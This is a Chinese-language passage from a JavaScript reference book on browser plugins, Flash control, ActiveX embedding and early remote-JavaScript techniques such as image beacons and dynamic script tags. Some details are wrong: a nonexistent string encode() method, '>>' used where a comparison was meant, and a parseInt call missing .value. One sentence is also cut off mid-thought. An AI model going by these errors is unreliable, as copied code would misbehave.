当然，与所有插件相关的事物一样，您需要仔细阅读供应商文档，以确定您感兴趣的特定插件的*确切*名称。

为了更清楚地说明 **Plugin** 对象的构成，以下代码打印出整个 **plugins[]** 数组的内容：

```
for (var i=0; i<navigator.plugins.length; i++)
{
    document.write("Name: " + navigator.plugins[i].name + "<br />");
```


 ```
document.write("Description: " + navigator.plugins[i].description + "<br />");

document.write("Supports: ");

for (var j=0; j<navigator.plugins[i].length; j++)

    document.write(" &nbsp; " + navigator.plugins[i][j].type);

    // the nonbreaking space included so the types are more readable

document.write("<br /><br />");

}
```

结果如图 18-5 所示。


图 18-5：**navigator.plugins[]** 数组的内容示例

#### 处理 Internet Explorer

需要特别注意的是，Internet Explorer 定义了一个虚拟的 **plugins[]** 数组作为 **Navigator** 的属性。这样做是为了防止编写拙劣的 Netscape 专用脚本在探测插件时抛出错误。在 Internet Explorer 下，你可以通过 **document.embeds[]** 集合获取一些与插件相关的数据引用。但是，并不支持探测 MIME 类型和其他功能，因为 Explorer 实际上使用 ActiveX 控件来实现通过 `<embed>` 标签包含的插件功能。有关在 JavaScript 中使用 ActiveX 的更多信息，请参阅本章后面标题为"ActiveX"的部分。目前，只需考虑到：如果不先进行浏览器检测就仅依赖 **navigator.plugins[]** 的信息，可能会导致一些奇怪甚至灾难性的后果。

### 与插件交互

现在你可能会想知道为什么要检测特定插件是否会处理特定的 MIME 类型。原因是，与 Java 小程序类似，插件在 Netscape 3+、Internet Explorer 4+ 和基于 Mozilla 的浏览器中都是启用了 LiveConnect 的。这意味着插件可以实现一个公共接口，JavaScript 可以通过该接口与它们交互。这种功能最常被多媒体插件使用，以便为 JavaScript 提供对视频和音频播放的精细控制。例如，插件通常会提供一些方法，用于启动、停止和回退内容，以及控制音量、质量和大小设置。然后，开发者可以向用户展示表单字段，通过 JavaScript 来控制插件的行为。

这种功能也可以反向工作。嵌入的对象可以调用浏览器中的 JavaScript 来控制导航或操作页面内容。这项技术的更高级方面超出了本书的范围，但常见方面包括插件在特定事件发生时被编程调用的函数。与 JavaScript 事件处理程序类似，插件会尝试在明确定义的时间调用特定名称的函数，例如，当用户停止播放多媒体文件时。为了防止与页面中其他对象的命名空间冲突，这些方法通常以 `<object>` 或 `<embed>` 对象实例的 **name** 或 **id** 属性为前缀。

与小程序一样，JavaScript 开发者仍然面临一个问题：如何知道插件提供和调用哪些方法。获取这些信息的主要来源是插件供应商的文档。但要注意警告：这些接口高度依赖于供应商、版本和平台。在使用 LiveConnect 功能时，通常需要进行仔细的浏览器和插件检测。

现在我们已掌握了安全检测和与插件交互所需的大部分初步信息。然而，在深入交互本身之前，还有一个防御性编程的方面需要介绍。

#### 刷新插件数组

假设你已经编写了一些自定义 JavaScript 来利用特定插件提供的功能。当用户在没有该插件的情况下访问你的页面时，系统会提示他们安装，因为你在 `<embed>` 中包含了正确的 **pluginspage** 属性。不幸的是，如果用户在没有插件的情况下访问你的页面，同意下载并安装它，然后返回你的页面，你的 JavaScript 将检测不到浏览器已安装所需的插件。原因是每当安装新插件时，**plugins[]** 数组需要刷新（浏览器重启也可以）。

刷新 **plugins[]** 数组就像调用其 **refresh()** 方法一样简单。这样做会导致浏览器检查新安装的插件，并在 **plugins[]** 和 **mimeTypes[]** 数组中反映这些变化。此方法接受一个布尔参数，指示浏览器是否应重新加载任何包含 `<embed>` 的当前文档。如果你提供 **true**，浏览器会导致任何可能能够利用新插件的文档（和框架）重新加载。如果向该方法传递 **false**，则 **plugins[]** 数组会更新，但不会重新加载任何文档。该方法使用的典型示例如下：

```
<em>如果您刚刚安装了插件，请<a
href="javascript:navigator.plugins.refresh(true)">重新加载页面以启用
插件支持</a></em>
```

当然，这应仅展示给 Netscape、Opera 或基于 Mozilla 的浏览器的用户，因为这些浏览器首先就支持插件。

#### 与特定插件的交互

几乎所有适用于小程序交互的内容对插件也同样适用。小程序通过 **Document** 对象访问，使用小程序的 **name** 或 **id** 属性。类似地，处理页面中嵌入数据的插件通过包含它的 `<embed>` 标签的 **name** 属性访问。与小程序一样，你需要注意不要在嵌入数据加载完成之前尝试访问它。通常使用相同的技术，即利用 **Document** 的 **onload** 处理程序设置一个全局标志来指示加载完成。但是，小程序和插件之间的一个主要区别是，就 DOM 规范而言，`<embed>` 标签不存在，插件也不存在。尽管它们的使用如此广泛，特别是以 Flash 的形式，但该规范选择不承认它们的主导地位，也不试图标准化它们的使用。

为了说明与插件的交互，我们展示一个简单的使用 Macromedia Flash 文件的示例。首先要注意的是，有两个插件名称对应于能够进行 LiveConnect 交互的 Flash 播放器。它们是"Shockwave Flash"和"Shockwave Flash 2.0"。其次，查阅 Macromedia 的文档可知，如果希望使用 JavaScript 调用 Flash 播放器，`<embed>` 标签应将其 **swliveconnect** 属性设置为 **true**（尽管在此示例中似乎不需要）。

你可以在 Macromedia 网站上找到 Flash 播放器支持的方法列表（例如，在 [http://www.macromedia.com/support/flash/publishexport/scriptingwithflash/](http://www.macromedia.com/support/flash/publishexport/scriptingwithflash/)）。我们在简单示例中将使用的有 **GotoFrame()**、**IsPlaying()**、**Play()**、**Rewind()**、**StopPlay()**、**TotalFrames()** 和 **Zoom()**。以下示例控制一个简单的 Flash 文件，展示 JavaScript 的奇妙之处。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Simple Flash control example (Netscape and Mozilla only)</title>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<script type="text/javascript">
<!--
var pluginReady = false;

var pluginAvailable = false;

if (document.all) alert("Demo for netscape only");

function detectPlugin()
{

	// if the appropriate plugin exists and is configured
	
	// then it is ok to interact with the plugin

	if (navigator.plugins &&
		((navigator.plugins["Shockwave Flash"] &&
			navigator.plugins["Shockwave Flash"]["application/x-shockwave-flash"])
		||
		(navigator.plugins["Shockwave Flash 2.0"] &&
			navigator.plugins["Shockwave Flash 2.0"]["application/x-shockwave-flash"]))
		)
		{
		pluginAvailable = true;
	}
}

function changeFrame(i)
{
	if (!pluginReady || !pluginAvailable)
```


```markdown
return;
if (i>=0 && i<document.demo.TotalFrames())
  // function expects an integer, not a string!
  document.demo.GotoFrame(parseInt(i));
}
```

```
function play()
{
  if (!pluginReady || !pluginAvailable)
    return;
  if (!document.demo.IsPlaying())
    document.demo.Play();
}
```

```
function stop()
{
  if (!pluginReady || !pluginAvailable)
    return;
  if (document.demo.IsPlaying())
    document.demo.StopPlay();
}
```

```
function rewind()
{
  if (!pluginReady || !pluginAvailable)
    return;
  if (document.demo.IsPlaying())
    document.demo.StopPlay();

  document.demo.Rewind();
}
```

```
function zoom(percent)
{
  if (!pluginReady || !pluginAvailable)
    return;

  if (percent >> 0)
    document.demo.Zoom(parseInt(percent));
  // method expects an integer
}
//->>
</script>
</head>
<body onload="pluginReady=true; detectPlugin();">

<!-- Note: embed tag will not validate against -->
<embed id="demo" name="demo"
       src="http://demos.javascriptref.com/jscript.swf"
       width="318" height="300" play="false" loop="false"
       pluginspage="http://www.macromedia.com/go/getflashplayer"
       swliveconnect="true"></embed>

<form name="controlform" id="controlform" action="#" method="get">
<input type="button" value="Start" onclick="play();" />
<input type="button" value="Stop" onclick="stop();" />
<input type="button" value="Rewind" onclick="rewind();" /><br />
<input type="text" name="whichframe" id="whichframe" />
<input type="button" value="Change Frame"
       onclick="changeFrame(controlform.whichframe.value);" /><br />
<input type="text" name="zoomvalue" id="zoomvalue" />
<input type="button" value="Change Zoom"
       onclick="zoom(controlform.zoomvalue.value);" />
(greater than 100 to zoom out, less than 100 to zoom in)<br />
</form>
</body>
</html>
```

该示例——在播放中途停止并放大——如**图 18-6**所示。


Flash 还存在远比前述示例更强大的功能。Flash 的一个特别有用的方面是，嵌入式文件可以使用**FSCommand()**发出命令，而通过定义适当命名的函数，JavaScript 可以"捕获"这些命令。当 LiveConnect 启用的浏览器中的嵌入式 Flash 文件发出**FSCommand()**时，该 Flash 文件会跨越到浏览器领域，调用**name_doFSCommand()**方法（如果存在的话）。**name_doFSCommand()**中的 *name* 部分对应于定义对象的元素的**name**或**id**。在前面的示例中，Flash 文件会查找**demo_doFSCommand()**，因为该文件包含在**name**等于"demo"的`<embed>`中。常见应用包括：在数据加载完成时向脚本发出警报，以及让脚本随时了解视频或音频的播放状态。与其他更高级的功能一样，关于这类*回调函数*的详细信息可以从插件供应商处获得。

### ActiveX

ActiveX 是微软的一种组件对象技术，使 Windows 程序能够在运行时加载和使用其他程序或对象。ActiveX 控件基本上是由浏览器启动的子程序，可以与页面内容交互。例如，如果`<textarea>`对特定任务提供的编辑功能不足，页面作者可以包含一个提供类似 MS Word 编辑器界面的 ActiveX 控件。

从表面上看，ActiveX 控件可能很像 Java 小程序，但这两项技术根本不同。首先，一旦 ActiveX 控件安装到用户的机器上，它就会被授予对本地系统的更大访问权限。这种宽松的安全立场意味着控件可以访问和更改文件，以及执行各种其他强大但可能有害的操作。由于 ActiveX 控件是可执行代码，它们是为特定的操作系统和平台构建的。这意味着它们在 Internet Explorer 之外的浏览器中支持最少，在 Windows 之外完全不支持。

Java 小程序在需要时下载，而 ActiveX 控件则与插件一样，一旦安装就是持久的。这个安装过程通常是自动的，这既好又坏。好的一面是它免去了用户手动安装所需组件的麻烦。但它也是一个安全风险，因为大多数用户可能很容易被欺骗接受恶意控件的安装。我们将在[第 22 章]中更多地讨论 ActiveX 控件的安全性。

#### 包含 ActiveX 控件

ActiveX 控件通过`<object>`标签嵌入页面中，**classid**属性指定要实例化的 ActiveX 控件的 GUID（全局唯一标识符）。其语法类似于用于包含小程序的`<object>`语法。参数使用`<param>`元素传递，`<object>`的开闭标签之间包含的任何内容由不支持`<object>`的浏览器处理；例如：

```
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000"
        codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"
        name="demoMovie" id="demoMovie" width="318" height="252">
  <param name="movie"
         value="http://www.javascriptref.com/examples/ch18/flash.swf" />
  <param name="play" value="true" />
  <param name="loop" value="false" />
  <param name="quality" value="high" />
  <em>您的浏览器不支持 ActiveX！</em>
</object>
```

此示例定义了用于 ActiveX 控件的嵌入式 Flash 文件。一般来说，ActiveX 控件的**classid**属性以"clsid:"开头。我们在[前面的章节]中看到了另一种可能性，其中**classid**以"java:"开头。一般来说，**classid**属性指定数据所针对的控件的唯一标识符。每个 ActiveX 控件的**classid**值由供应商发布，但 Web 开发工具（如 Macromedia Dreamweaver，[www.macromedia.com/dreamweaver]）也通常会插入它。

最后要注意的事项是**codebase**属性，它指定此特定对象所需的 ActiveX 二进制版本。**classid**和**codebase**属性的功能类似于 Netscape 下手动探测插件的功能。如果用户的机器没有所需的控件或版本，系统将提示用户从给定位置下载它。

### 嵌入式对象的跨浏览器包含

确保页面跨浏览器兼容性的最佳方法，是结合使用 ActiveX 控件和插件语法。为此，使用针对 IE/Windows ActiveX 控件的`<object>`，并在其中包含针对 Netscape 和 IE/Macintosh 插件的`<embed>`。以下示例说明了该技术：

```
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000"
        codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"
        name="demoMovie" id="demoMovie" width="318" height="252">
  <param name="movie" value="http://www.javascriptref.com/examples/ch18/flash.swf" />
  <param name="play" value="true" />
  <param name="loop" value="false" />
  <param name="quality" value="high" />
  <embed src="http://www.javascriptref.com/examples/ch18/flash.swf"
         width="318" height="252" play="true" loop="false" quality="high"
         pluginspage="http://www.macromedia.com/go/getflashplayer">
    <noembed>
      Error: No Object or Embed Support
    </noembed>
  </embed>
</object>
```

不理解`<object>`的浏览器会看到`<embed>`，而能够处理`<object>`的浏览器会忽略其中包含的`<embed>`。联合使用`<object>`和`<embed>`可以最大化用户能够处理您内容的可能性。

### 与 ActiveX 控件交互

JavaScript 可以与 ActiveX 控件交互，方式与插件非常相似。控件根据包含它的`<object>`的**id**在**Document**对象下可访问。如果所需的控件不可用，Internet Explorer 会自动安装它（须经用户确认），然后使其可供使用。

> **注意** *您可能需要在`<object>`中包含* **mayscript** *属性以启用回调函数。*

控件暴露的任何方法都可以从 JavaScript 调用，方式与调用小程序或插件功能相同。只需调用


### 总结

嵌入对象提供了扩展页面功能的手段，使你能够集成高级处理、网络和多媒体任务。Web 浏览器支持 Java 小程序和 ActiveX 控件以及/或 Netscape 插件。JavaScript 可以在一定程度上与各种嵌入对象进行交互。通常，处理嵌入内容的对象可以通过 **Document** 对象进行寻址（通过其 **id** 或 **name**）。在嵌入内容时，建议编写跨浏览器脚本，使其能够同时与 ActiveX 控件和插件交互。

本章介绍了嵌入对象的使用可能性。ActiveX 和插件的大部分功能都是特定于浏览器、供应商和平台的，因此获取这些技术相关信息的最佳方式是直接从 ActiveX 控件或插件供应商处获取。由于存在大量浏览器缺陷和文档不一致性，通常与嵌入对象的交互最好通过一个考虑到这些细微差别的 JavaScript 库来完成。你可以在网上找到许多这样的库。

嵌入对象提供了一种*增强*网站的方式，而不是替代它。页面应始终实现优雅降级，以便那些使用替代平台或选择不安装插件、ActiveX 或 Java 技术的用户也能使用。对于那些偏好 Windows/Internet Explorer 以外的操作系统和浏览器配置的用户群体来说，*要求*使用特定技术的网站用起来会非常令人沮丧。正如我们在上一章中讨论的，应该始终采用检测技术，以避免因技术限制或客户端差异而将用户拒之门外。

## 第 19 章：远程 JavaScript

到目前为止，我们对 JavaScript 的讨论集中在与浏览器及其包含的文档进行交互上。你可能没有想过 JavaScript 还可以用于与服务器进行交互。在 C 和 Java 等语言中，建立网络连接的能力是理所当然的。但对于 JavaScript 来说，这是一个相当不常见的想法。确实，*远程 JavaScript* 的概念——使用 JavaScript 与互联网上的服务器进行联系和交互——还是比较新的。最初的应用比较原始，也没有广泛部署，但这个想法正在迅速被那些需要为页面添加更高级交互性的开发者所接受。

在本章中，我们将讨论几种可用于实现远程 JavaScript 的技术。由于只有最现代的浏览器才具有支持你优雅地完成此任务的功能，因此其中一些技术以可能并非原始发明者预期的方式使用了 JavaScript、(X)HTML 和 DOM。然而，即使其中一些技术乍一看像是糟糕的黑客手段，这些新技术也可能非常有用。

### 远程 JavaScript 的基本原理

你可能会问自己，为什么有人需要用 JavaScript 来调用 Web 上的服务器。主要原因是提交表单然后下载响应所需的往返时间往往带来不便。如果用户点击一个按钮就能更新页面，而不需要看着屏幕变白然后被服务器端程序的响应所替代，用户体验就会大大改善。对用户来说，页面的行为会更像一个应用程序，而不仅仅是一个 Web 页面。

还有其他优势。如果与服务器的通信可以在后台进行，而不是使用表单提交或点击链接，开发者就可以同时执行需要多次服务器请求的更复杂的任务。使用远程 JavaScript 的能力也意味着以前需要 ActiveX 对象或 Java 小程序才能完成的任务现在可以用脚本来实现。这对开发者来说是一个巨大的时间节省，也显著降低了调试的复杂性。

远程 JavaScript 所实现的抽象就是远程过程调用。*远程过程调用（RPC）*是在远程机器上执行的函数，在本例中就是 Web 服务器。客户端，即本例中使用 JavaScript 的浏览器，通过 HTTP 请求将参数传递给它希望调用的"函数"；服务器执行指定的函数（通常实现为 CGI 程序或 PHP 等类似语言编写的服务器端脚本），并将结果作为 HTTP 响应的正文返回。重要的是要记住，虽然 JavaScript 用于发起函数调用并经常用于处理返回值，但函数本身在服务器上执行，因此可以实现为 CGI、PHP 脚本、Java servlet，或使用 Web 服务器可能提供的任何其他技术。RPC 概念说明如下：


#### 单向通信

最简单的通信形式是从浏览器脚本到Web服务器的单向通知，表明某个事件已经发生。例如，假设你正在向用户展示产品列表并要求用户对它们进行评分。如果每次用户评分一个产品都需要提交表单并重新加载页面，那将非常繁琐。用户很快就会失去兴趣。你可以让用户对一堆产品评分，然后在完成时提交表单，但这样做存在丢失忘记提交用户评分的风险，并且仍然会产生提交本身的往返开销。需要的是一个快速、简单的方法，让页面能够将评分信息传达给Web服务器。

考虑到(X)HTML中可用的元素，你会意识到许多元素都有一个可以动态指定的**src**或类似属性。因为当你用JavaScript设置一个元素的**src**时，浏览器会自动加载指定的资源，所以这是进行单向（客户端到服务器）通信的完美载体。

当你希望向服务器发送消息时，将消息构建为一系列CGI参数，将这些CGI参数附加到指向服务器的URL上，并将用作传输机制的对象源设置为此URL。当服务器收到针对给定URL的请求时，服务器会解析参数并很可能使用这些信息执行某些操作，例如，用客户的评分更新数据库。这些步骤概述如下：

1.  构建查询参数（例如，*productid=2158&rating=5&user=Bob*）。
2.  将参数附加到预定义的URL（例如，*http://www.example.com/setrating.cgi?productid=2158&rating=5&user=Bob*）。
3.  将某个元素的源设置为此URL，这会导致浏览器获取它。
4.  服务器接收请求并调用处理程序（例如，*setrating.cgi*）。
5.  处理程序解析参数并使用它们。
6.  处理程序返回一个响应（很可能被忽略）。

剩下的就是找到一个合适的(X)HTML元素来实现通信。

#### 图像

迄今为止，用于单向通信的最常见的载体是图像。你甚至不必在页面中嵌入``标签；事实上，最好不这样做。由于你并不打算实际下载或显示图像，你可以创建一个**Image**对象，使用它，然后丢弃它。考虑以下文档片段：

```javascript
<script type="text/javascript">
var commandURL = "http://demos.javascriptref.com/setrating.php?";

function sendURL(url)
{
  var img = new Image();
  img.src = url;
}

function sendRating(productid, rating, user)
{
  var params = "productid=" + productid;
  params += "&rating=" + rating;
  params += "&user=" + user;
  sendURL(commandURL + params);
  return false;
}
</script>

<!-- ... -->
为这个项目评分：
<form action="#" method="get">
    <input type="button" value="糟糕！" onclick="return sendRating(2158, 1, 'Bob');" />
    <input type="button" value="一般" onclick="return sendRating(2158, 2, 'Bob');" />
    <input type="button" value="很棒！" onclick="return sendRating(2158, 3, 'Bob');" />
</form>
```

**注意：** *不要认为因为我们在这里使用了表单按钮，这就是传统的通信方式。事实上，我们几乎可以使用任何可以通过附加**onclick**来点击的对象，包括链接（`<a>`）甚至像`<div>`或`<p>`这样的结构元素，但我们使用了表单按钮，因为用户会觉得它们是可点击的！*

我们省略了处理这些请求的服务器端脚本。你可以编写一个简单的CGI，它返回一个1像素乘1像素的图像，或者你可以返回任何你喜欢的旧内容。由于我们不对结果做任何处理，我们甚至不关心服务器是否返回错误。事实上，你甚至不需要有一个*setrating.cgi*来处理这个请求。相反，你可以让服务器返回一个404错误，并从你的日志中提取信息。这些请求将在日志中产生类似这样的行：

`www.example.com - - [19/Mar/2004:21:05:29 -0800] "GET /setrating.cgi?productid=2158&rating=1&user=fritz HTTP/1.0" 403 305`

你可以轻松编写一个脚本，在你的日志中搜索这些消息，解析它们，并根据需要使用这些信息（例如，将其输入数据库）。

**注意：** *在前面的示例中，你不一定必须通过CGI参数传递用户信息。如果你使用cookie进行身份验证，cookie将像往常一样随请求一起发送，服务器端脚本可以从cookie中提取用户的身份。*

一个更优雅的方法是让你的服务器端程序记录数据，然后实际向浏览器返回一个适当的响应代码。在这种情况下，我们可以返回一个204 HTTP响应代码，表示没有内容，这样浏览器就不会认为出了什么问题。虽然这看起来是更干净的方法，但这并不是真正必要的。然而，不要随意处理HTTP；有重要的陷阱需要避免。

##### 编码参数

某些字符在URL中是非法的，如果包含它们，Web服务器通常会出错。例如，URL中不能有回车或退格符。如果你希望传递给服务器的参数可能包含有问题的字符，你需要对它们进行*编码*。编码将问题字符替换为其十六进制转义序列的ASCII值，例如，%0D表示换行。Web服务器会自动*解码*收到的URL，并将解码后的参数提供给CGI等程序。

要编码一个字符串，只需调用其**encode()**方法。我们可以用这种方式重写前面示例中的参数设置代码：

```javascript
var params = "productid=" + encode(productid);
params += "&rating=" + encode(rating);
params += "&user=" + encode(user);
```

即使你认为不太可能有有问题的字符混入，编码参数几乎总是一个好主意。

##### 其他对象

除了广泛支持和脚本编写简单之外，没有特别的理由使用**图像**进行此RPC。任何具有可以设置为URL属性的(X)HTML元素都可以工作。一种常见的技术是使用一个隐藏的`<iframe>`进行通信。每当你希望向服务器发送消息时，将`<iframe>`的**src**设置为消息URL。我们将在后面的部分看到，`<iframe>`更常用于双向通信。

### 重定向

HTTP响应代码204“无内容”，正如我们之前提到的，是HTTP协议中一个非常有用但不太为人所知的特性。当服务器返回204（而不是200“OK”或404“文件未找到”）时，它向浏览器发出信号，表示由于某种原因服务器没有数据可以发送作为响应，因此浏览器不应采取任何操作。即使浏览器向服务器发出了请求，将浏览器指向返回204的URL也不会产生视觉效果：浏览器似乎什么也没做。

我们可以通过使用JavaScript重定向到一个返回204的URL来发起RPC调用，从而利用HTTP 204响应代码。要设置此功能，请配置你的Web服务器（或cgi脚本）为特定URL返回204，例如，*setrating.cgi*。然后编写你的JavaScript，将浏览器重定向到此URL并附上你希望发送的消息参数。

使用此技术需要更改前面示例中的唯一部分是*sendURL()*函数，它现在将进行重定向而不是加载一个假图像：

```javascript
function sendURL(url)
{
    window.location = url;
}
```

要发送RPC，JavaScript构建URL然后将浏览器重定向到该URL。当服务器收到请求时，它返回204，这会导致浏览器取消导航，因为没有页面可以导航。用户不会察觉，尽管某些浏览器可能会显示轻微的浏览器活动迹象，暗示了幕后的传输。


### 双向通信

将信息从浏览器传递到服务器而不经过往返是一种有用的技术，但如果JavaScript也能接收返回值，则可以实现更多功能。本节我们将介绍多种实现双向通信（真正的RPC）的方法，从原始到成熟。然而，我们讨论的技术并非实现RPC的唯一机制。你可以使用JavaScript来拉取其他类型的动态内容，控制与服务器通信的Java小程序，驱动处理网络的ActiveX控件，或利用专有的浏览器增强功能，例如IE的数据源特性。

#### 图像

由于**Image**对象的**高度**和**宽度**属性在图像下载后会自动由浏览器填充，你的服务器可以返回不同尺寸的图像来向你的JavaScript传递消息。例如，你的网站可能有基于Java的聊天功能，用户可以在他们的朋友当前也在浏览你的网站时启动。由于你可能不希望在用户知道有可以交谈的人之前启动Java小程序，你可能会使用JavaScript快速向服务器查询谁在线。JavaScript可以通过**Image**对象向服务器发出RPC，询问某个特定用户当前是否可用。如果有人在线，服务器可以返回一个高度为1像素的图像。如果没人在线，服务器可以返回一个高度为2像素的图像。

以下是该技术的示例：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>User Online Demo</title>
</head>
<body>
<script type="text/javascript">
var commandURL = "http://demos.javascriptref.com/isuseronline.php?";

// Since requests don't necessarily complete instantaneously, we need to
// check completion status periodically on a timer.
var timer = null;
var currentRequest = null;

// Sends the RPC give in url and then invokes the function specified by
// the callback parameter when the RPC is complete.
function sendRPC(url, callback)
{
    // If we've already got a request in progress, cancel it
    if (currentRequest)
        clearTimeout(timer);

    currentRequest = new Image();
    currentRequest.src = url; // Send rpc
    setTimeout(callback, 50); // Check for completion in 50ms
}

// Checks to see if the RPC has completed. If so, it checks the size of the
// image and alerts the user accordingly. If not, it schedules itself to
// check again in 50ms.
function readResponse()
{
    // If image hasn't downloaded yet...
    if (!currentRequest.complete)
    {
        timer = setTimeout(readResponse, 50);
        return;
    }

    // Else image has downloaded, so check it
    if (currentRequest.height == 1)
        alert("User is not online");
    else
        alert("User is online");
    timer = currentRequest = null;
}

// Check to see if the user is online. The function readResponse will be
// invoked once a response has been received.
function isUserOnline(user)
{
    var params = "user=" + user;
    sendRPC(commandURL + params, readResponse);
    return false;
}
</script>

<!-- Test Code -->
User: Smeagol (<a href="#"
                        onclick="return isUserOnline('smeagol');">check
                        online status</a>) [should be false] <br />
User: Deagol (<a href="#"
                        onclick="return isUserOnline('deagol');">check
                        online status</a>) [should be true]
</body>
</html>
```

请注意，在前面的脚本中，我们非常努力地适应图像可能需要时间下载的事实（可能是由于服务器处理缓慢或网络连接慢）。由于RPC（图像下载）可能需要时间，我们安排回调函数每50毫秒运行一次。每次运行时，*readResponse()* 会检查我们用于请求的*Image*对象的 **complete** 属性。正如在*第15章*中讨论的，该属性由浏览器在图像下载完成时设置。如果 **complete** 为 **true**，JavaScript会读取编码在图像高度中的响应。如果 **complete** 为 **false**，浏览器需要更多时间来获取图像，因此 *readResponse()* 被安排在50毫秒后再次运行。

迄今为止，程序员在JavaScript中实现双向通信技术时最常犯的错误是忘记了RPC可能比预期花费更长时间的可能性。在这种情况下，绝对需要偏执的编码，而 **setTimeout()** 是一个有用的工具。我们将在后面的部分看到一个更复杂的基于回调的方法。

前面示例中另一个值得注意的特点是，我们一次只允许一个未完成的RPC。如果在我们还在等待一个RPC完成时又来了一个新的RPC，我们会取消第一个并发出第二个。这个策略在一定程度上简化了编码，但事实上，同时处理多个未完成的请求并不需要太多额外工作。只需要仔细管理三件事：对每个执行RPC的图像的引用、每个RPC完成时应调用的函数，以及用于定期检查RPC是否完成的计时器。

#### 线程

*线程*是操作系统中的一个执行流。在线程中执行的代码一次只能做一件事；为了实现多处理，应用程序需要是*多线程的*（即能够同时执行多个指令流）。

几乎无一例外，JavaScript解释器是单线程的，并且它们通常与浏览器的UI线程共享。这意味着当你的JavaScript正在做某事时，没有其他JavaScript可以执行，浏览器也无法响应用户事件，如鼠标移动或按钮点击。因此，“阻塞”你的JavaScript等待某个条件*永远*不是一个好主意。

例如，与其注册一个计时器来检查上一个示例中的请求是否已完成，我们本可以去掉计时器，将 `readResponse()` 编写为：

```
function readResponse()
{
  // Wait until the image downloads...
  while (!currentRequest.complete); // do nothing

  if (currentRequest.height == 1)
    alert("User is not online");
  else
    alert("User is online");
}
```

以这种方式在 **currentRequest.complete** 值上“自旋”是一个非常糟糕的主意。你不仅很可能在等待图像下载期间阻止用户做任何事情，而且如果图像下载以某种方式失败，你还有完全锁定浏览器的风险。如果 **currentRequest.complete** 永远不会为 **true**，你将永远陷入紧密循环，而用户则疯狂地试图重新获得控制权。

如果说良好JavaScript RPC习惯的第一条规则是适应RPC比预期花费更长时间，那么第二条规则绝对是使用超时或回调来发出诸如调用完成之类的事件信号。

#### Cookies

你的服务器可以在cookie中返回值，而不是通过图像的属性来传递返回值。响应于对RPC URL的请求，你的服务器会发出一个 **Set-cookie** HTTP头，以及图像或你决定返回的任何其他响应。这种技术与使用图像几乎相同，但你是从 **document.cookie** 读取返回值，而不是从 **Image.height** 读取。

需要注意的一件事是，默认情况下，Internet Explorer 6会拒绝“第三方”cookie，除非它们附带P3P头。如果你尝试设置的cookie是在响应于对文档来源域以外的域的请求时设置的，则该cookie被视为“第三方”。因此，如果你的站点是 [www.mysite.com](http://www.mysite.com)，并且你的JavaScript对 [www.example.com](http://www.example.com) 进行基于cookie的RPC，那么 [www.example.com](http://www.example.com) 服务器必须在其响应中包含P3P头，以便IE6接受它设置的任何cookie。

P3P是隐私偏好平台，这是一个主要由Microsoft推动的W3C标准。Web服务器可以在其响应中包含特殊的P3P HTTP头，这些头编码了站点的隐私策略，例如，它们是否与营销人员等共享你的个人身份信息。浏览器可以使用此信息和用户设置的策略来决定对Web站点的信任程度。例如，如果一个站点的隐私策略在信息共享方面非常宽松，用户可能希望永远不接受该站点的持久性cookie，并在提交个人信息之前收到警告。你可以在 [www.w3.org/P3P/](http://www.w3.org/P3P/) 了解更多关于P3P的信息，包括如何配置你的Web服务器以使用它。

### 动态内容

虽然第15章中的DHTML技术使你能够动态修改和更新页面，但这些技术在某种意义上有些局限，因为所有你希望使用的逻辑和内容都需要是页面的一部分（即，编码到你的脚本中）。除了图像和框架，实际上没有提供从服务器检索HTML来动态更新页面的功能。然而，通过一些精心编写的JavaScript和一些服务器端编程，你实际上可以用DHTML实现真正的动态内容。


```
实现服务器端获取内容的一个基本工具是外部链接脚本。当你希望从服务器检索内容时，你可以使用JavaScript在页面中写入一个 `<script>` 标签，并将其 **src** 指向一个服务器端程序将要运行的URL。你可以通过URL中的查询参数向服务器端程序传递"参数"，就像我们之前看到的基于图片、Cookie和重定向的技术一样。当你的服务器端程序收到请求时，它会处理URL中编码的信息，然后返回JavaScript作为响应，该JavaScript会写出所需的动态内容。响应中的JavaScript通过 `<script>` 标签链接到页面中，因此浏览器会下载并执行它，其可能的结果就是用它写出的内容更新页面。

为了说明这个概念，请看下面的页面，它有一个用于显示头条新闻的内容区域。每五分钟，JavaScript就会向服务器发起一次RPC，为新闻区域获取新内容。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />

<title>JavaScript Ref News</title>

</head>

<body>

<h2>JavaScript World News Report</h2>

<form name="newsform" id="newsform" action="#" method="get">

Show me<input type="text" name="numstories" id="numstories" size="1"
    value="5" />

stories every <input type="text" name="howoften" id="howoften" size="2"
    value="5" /> minutes.

<input type="button" value="Get News" onclick="updateNews();" />

</form>

<hr />

<div id="news">
    Fetching news stories...
</div>

<br />

<script type="text/javascript">

var commandURL = "http://demos.javascriptref.com/getnews.php?";
```

```
// Sends the RPC given in url. The server will return JavaScript that will
// carry out the required actions.

function sendRPC(url)
{
  var newScript = document.createElement('script');
  newScript.src = url;
  newScript.type = "text/javascript";
  document.body.appendChild(newScript);
}
```

```
// Fetch some news from the server by sending an RPC. Once it's sent, set
// a timer to update the news stories at some point in the future.

function updateNews()
{
  var params = "numstories=" + document.newsform.numstories.value;
  sendRPC(commandURL + params);
  var checkAgain = 5 * 60 * 1000;          // default: 5 minutes
  if (parseInt(document.forms.newsform.howoften))
    checkAgain = parseInt(document.forms.newsform.howoften) * 60 * 1000;
  setTimeout(updateNews, checkAgain);
}
```

```
updateNews();

</script>
</body>
</html>
```

